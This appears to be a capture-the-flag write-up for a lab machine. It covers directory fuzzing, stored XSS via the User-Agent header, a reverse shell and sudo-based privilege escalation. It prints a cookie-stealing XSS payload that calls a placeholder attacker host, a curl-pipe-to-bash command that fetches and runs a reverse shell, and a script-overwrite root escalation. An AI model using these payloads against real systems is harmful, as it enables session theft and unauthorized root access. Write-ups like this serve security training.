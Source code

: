 #xss #command_injection 
### Security Assessment Workflow

1. **Initial Reconnaissance with Nmap**
    
    - Scanned for open services:
        - Port 22: FTP
        - Port 5000: Web service
2. **Discovery of Web Service Vulnerability**
    
    - Conducted directory fuzzing on the web service using tools like Gobuster/Dirbuster.
    - Found a **dashboard** endpoint.
    - Gained **unauthorized access** to the dashboard.
3. **Testing for Cross-Site Scripting (XSS)**
    
    - Exploited message boxes by injecting XSS payloads.
    - Used Burp Suite to craft a malicious User-Agent and inject the following payload:
        
        `<img src=x onerror=fetch('http://yourIP/'+document.cookie);>`
        
    - Successfully retrieved the **admin's cookie**.
4. **Dashboard Exploitation**
    
    - Accessed the dashboard with the stolen admin cookie.
    - Injected code to execute a reverse shell, which worked successfully.
5. **Obtaining Reverse Shell**
    
    - Used Burp Suite to issue a `curl` command that downloaded and executed the reverse shell:
        
        `curl http://yourIP/revshell.sh | bash`
        
    - Successfully gained access to the system as a user.
6. **Privilege Escalation**
    
    - Checked **sudo** permissions using `sudo -l` and found access to `/usr/bin/syscheck`.
    - Inspected `/usr/bin/syscheck` and found it executes the `initdb.sh` file.
7. **Exploitation of syscheck**
    
    - Overwrote the `initdb.sh` file with the following content:
        
        `/bin/bash`
        
    - Granted execution permissions to `initdb.sh`:

        `chmod +x initdb.sh`
        
    - Ran the following command:

        `sudo /usr/bin/syscheck`
        
    - Escalated privileges and obtained **root access**.